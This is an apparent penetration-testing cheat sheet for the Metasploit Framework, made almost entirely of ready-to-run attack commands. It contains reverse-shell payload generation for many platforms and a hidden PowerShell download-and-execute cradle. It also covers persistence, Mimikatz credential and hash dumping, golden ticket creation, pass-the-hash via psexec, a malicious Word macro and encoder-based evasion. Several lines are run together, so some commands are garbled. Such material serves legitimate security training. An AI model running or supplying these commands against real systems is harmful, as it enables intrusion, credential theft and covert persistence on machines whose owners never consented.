 # Module 22 (Metasploit Framwork)

### Meterpreter - Basic <a href="#meterpreter-basic" id="meterpreter-basic"></a>

#### Generate a meterpreter <a href="#generate-a-meterpreter" id="generate-a-meterpreter"></a>

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp 
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
```

### Meterpreter Webdelivery <a href="#meterpreter-webdelivery" id="meterpreter-webdelivery"></a>

Set up a Powershell web delivery listening on port 8080.

{% code overflow="wrap" %}
```bash
use exploit/multi/script/web_deliveryset 
TARGET 2
set payload windows/x64/meterpreter/reverse_http 
set LHOST 10.0.0.1
set LPORT 4444
run
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
powershell.exe -nop -w hidden -c $g=new-object net.webclient;$g.proxy=[Net.WebRequest]::GetSystemWebProxy();$g.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $g.downloadstring('http://10.0.0.1:8080/rYDPPB');
```
{% endcode %}

### Persistence Startup <a href="#persistence-startup" id="persistence-startup"></a>

```bash
use exploit/windows/local/persistence
OR
OPTIONS:

-A        Automatically start a matching exploit/multi/handler to connect to the agent
-L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
-P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
-S        Automatically start the agent on boot as a service (with SYSTEM privileges)
-T <opt>  Alternate executable template to use
-U        Automatically start the agent when the User logs on
-X        Automatically start the agent when the system boots
-h        This help menu
-i <opt>  The interval in seconds between each connection attempt
-p <opt>  The port on which the system running Metasploit is listening
-r <opt>  The IP of the system running Metasploit listening for the connect back
meterpreter > run persistence -U -p 4242
```

### Network Monitoring <a href="#network-monitoring" id="network-monitoring"></a>

```bash
#list interfaces 
run packetrecorder -li 
# record interface n°1
run packetrecorder -i 1
```

### Port forward <a href="#portforward" id="portforward"></a>

```
portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

#### Upload / Download <a href="#upload-download" id="upload-download"></a>

```
upload /path/in/hdd/payload.exe exploit.exedownload /path/in/victim
```

#### Execute from Memory <a href="#execute-from-memory" id="execute-from-memory"></a>

```bash
execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

#### Mimikatz <a href="#mimikatz" id="mimikatz"></a>

```bash
load mimikatz
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::wdigest
mimikatz_command -f sekurlsa::searchPasswords
mimikatz_command -f sekurlsa::logonPasswords full
```

```
load kiwi
creds_all
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

#### Pass the Hash - PSExec <a href="#pass-the-hash-psexec" id="pass-the-hash-psexec"></a>

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
```

#### Use SOCKS Proxy <a href="#use-socks-proxy" id="use-socks-proxy"></a>

```
setg Proxies socks4:127.0.0.1:1080
```

### Scripting Metasploit <a href="#scripting-metasploit" id="scripting-metasploit"></a>

Using a `.rc file`, write the commands to execute, then run `msfconsole -r ./file.rc`. Here is a simple example to script the deployment of a handler an create an Office doc with macro.

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 0.0.0.0set LPORT 4646
set ExitOnSession false
exploit -j -z
use exploit/multi/fileformat/office_word_macro
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.14.22
set LPORT 4646
exploit
```

### Multiple transports <a href="#multiple-transports" id="multiple-transports"></a>

```
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

Then, in AddTransports.ps1

```bash
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http(s)://<host>:<port>/<luri> -RetryWait 10 -RetryTotal 30
```

### Automation

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

```bash
sudo msfconsole -r setup.rc
```
